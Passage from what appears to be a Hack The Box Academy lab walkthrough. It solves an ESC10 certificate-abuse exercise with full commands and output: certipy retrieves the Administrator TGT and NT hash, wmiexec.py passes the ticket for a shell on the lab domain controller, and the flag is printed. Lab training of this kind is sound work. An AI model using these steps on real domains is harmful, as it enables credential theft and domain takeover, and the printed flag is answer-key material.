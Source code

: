 Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` (using `psexec.py` will hinder finding the flag due to the different user it establishes the session with) to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Windows\System32\rbcd.txt`, students will attain the flag `HTB{ESC10_ATT4CK}`:

Code: cmd

```cmd
more "C:\Windows\System32\rbcd.txt"
```

```cmd-session
C:\>more "C:\Windows\System32\rbcd.txt"

HTB{ESC10_ATT4CK}
```
